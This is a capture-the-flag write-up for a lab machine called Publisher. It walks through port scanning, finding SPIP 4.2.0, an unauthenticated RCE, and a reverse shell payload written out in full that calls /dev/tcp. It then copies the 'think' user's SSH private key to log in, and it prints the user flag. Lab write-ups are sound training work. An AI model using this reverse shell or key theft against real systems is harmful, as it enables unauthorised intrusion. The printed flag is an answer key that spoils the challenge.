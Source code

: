 # Publisher

### Publisher
(Flags can be found at the end of this writeup)<br />
Initial scan: 

    nmap -n -Pn -v --min-rate=1000 -p- 10.10.99.134                        
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-28 15:29 EDT
    Initiating Connect Scan at 15:29
    Scanning 10.10.99.134 [65535 ports]
    Discovered open port 80/tcp on 10.10.99.134
    Discovered open port 22/tcp on 10.10.99.134
    Completed Connect Scan at 15:30, 35.15s elapsed (65535 total ports)
    Nmap scan report for 10.10.99.134
    Host is up (0.066s latency).
    Not shown: 65533 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    
The website seems to be a magazine about SPIP, which is a content management system:<br />
![image](https://github.com/user-attachments/assets/3585d3d3-4012-498c-8ef6-d19183aa252c)<br />
Directory enumeration gives some results:<br />
![image](https://github.com/user-attachments/assets/968f056c-f9f0-40df-a0da-9edf2a8d864a)<br />
Moving to /spip, wappalyzer shows us that the server is running SPIP 4.2.0.<br />
![image](https://github.com/user-attachments/assets/53ff1363-7149-4f70-89e5-970d7776838e)<br />
Searching online I found that this version is vulnerable to unauthenticated RCE. The code for the exploit can be found in `exploit.py` of this folder. To run it, first base64 encode the following string `sh -i >& /dev/tcp/10.11.85.53/4444 0>&1`. The payload should look something like `echo base64string | base64 -d | bash`.<br />
So set up a netcat listener and run the following:<br />
![image](https://github.com/user-attachments/assets/9ba6e70e-2f29-4664-96fc-4f65c4523afe)<br />
Sadly the target machine doesn't have python or netcat, and I don't know how to stabilize the shell without these tools. Fortunately, the `think` user has a .ssh folder from which we can copy the private key. <br />
![image](https://github.com/user-attachments/assets/8d7a5cdc-ee53-45b0-b6ca-4af8eb096c7a)<br />
So, create an `id_rsa` file containing the private key, change it's permissions so that it can be used to access the machine with `chmod 600 id_rsa`. Finally log in with `ssh -i id_rsa think@target_IP`.<br />
![image](https://github.com/user-attachments/assets/efa2fd4e-2e40-4a34-b2b2-b0a2b20ef370)<br />
Very good, now let's see if we can get root aswell. 


- What is the user flag? `fa229046d44eda6a3598c73ad96f4ca5 `
- What is the root flag?

